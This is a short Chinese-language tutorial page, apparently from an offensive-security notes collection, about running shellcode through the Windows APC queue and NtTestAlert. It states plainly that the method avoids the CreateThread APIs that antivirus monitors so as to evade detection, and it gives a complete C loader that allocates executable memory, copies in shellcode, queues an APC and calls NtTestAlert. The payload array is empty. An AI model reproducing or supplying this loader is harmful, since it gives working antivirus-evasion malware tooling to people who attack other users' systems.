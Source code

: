 ```yaml
---
description: APC & NtTestAlert代码执行
---
```


# APC & NtTestAlert Code Execute

## APC & NtTestAlert Code Execute简介

在Early Bird篇章介绍过,本质上是线程初始化时调用的为导出函数NtTestAlert函数清空APC队列导致的代码执行,那我们是不是可以直接调用这个函数进行代码执行呢？

这种技术并不依赖CreateThread和CreateRemoteThread等被杀软严格监控的API就能进行代码执行,也并没有直接操作恶意代码,而是触发操作系统\(其实也是本进程\)去帮我们执行这些恶意代码,这样也一定程度上逃避了检测。

## 执行流程

1. 修改shellcode执行权限
2. 获取NtTestAlert函数地址
3. 插入APC队列
4. 调用NtTestAlert

## 代码实现

```text
#include <Windows.h>
#include<stdio.h>
char shellcode[]="";
typedef VOID(NTAPI* pNtTestAlert)(VOID);
int main() {

	pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTestAlert");

	LPVOID lpBaseAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	memcpy(lpBaseAddress, shellcode, sizeof(shellcode));

	QueueUserAPC((PAPCFUNC)lpBaseAddress, GetCurrentThread(), NULL);
	
	NtTestAlert();
	return 0;
}
```

## LINKS

{% embed url="https://undocumented.ntinternals.net/" %}



